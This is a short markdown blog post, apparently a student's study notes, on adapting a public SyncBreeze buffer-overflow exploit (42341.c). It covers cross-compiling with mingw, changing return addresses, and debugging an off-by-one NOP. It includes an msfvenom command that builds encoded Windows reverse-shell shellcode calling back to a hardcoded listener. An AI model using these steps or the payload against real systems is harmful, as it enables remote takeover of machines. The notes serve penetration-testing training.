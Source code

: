 ```yaml
---
layout: post
title: Examining Exploit Code
titledate: 09/08/23
tags: ["infosec","offsec", "exploit", "C"]
---
```


#### compiling c on linux

- $ sudo apt install mingw-w64
- $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe

when compiling we may run into missing header information 

- $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

#### ip and port

the target or source ip address and port numbers may be hardcoded

#### chaning return address

  we may need to change the return address of the exploit depending on our target environment and what dlls are available to it

  there are a few methods to achieve this

  1. if possible recreate the target environment locally and use a debugger to determine this address - File > Attach to process > View > Executable modules and see what  dll modules are present
  2. search for public exploits with a similar setup - like a return address for a JMP ESP on win 10
  3. search for non-ASLR marked dlls

### Note: If we have access to the machine we can copy the DLLs we want to utilize over for priv escalation

#### shellcode 

since this is a static exploit - we will most likely need to regenerate shellcode for our specific use case / target environment
for example if we want a reverse shell for an x86 platform system with no bad characters we can use

- $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

#### debugging our exploit

after recompiling our exploit we can open our debugger with the application running press ctr+G and follow the JMP ESP address at our return address 0x10090c83, then we can set a breakpoint with F2 and then continue execution by pressing F9


![immun_1.png](../images/exploitation/immun_1.png)

#### execute exploit with wine

because we are running an executable we can use wine to run the exploit

- sudo wine syncbreeze_exploit.exe

  When we run the exploit we did not hit our breakpoint but instead hit a crash with the value of the EIP register pointing to 0x9010090c

#### fixing the code

the eip address has an extra 90 or nop in it so we are off 1 byte and need to remove a nop from the shellcode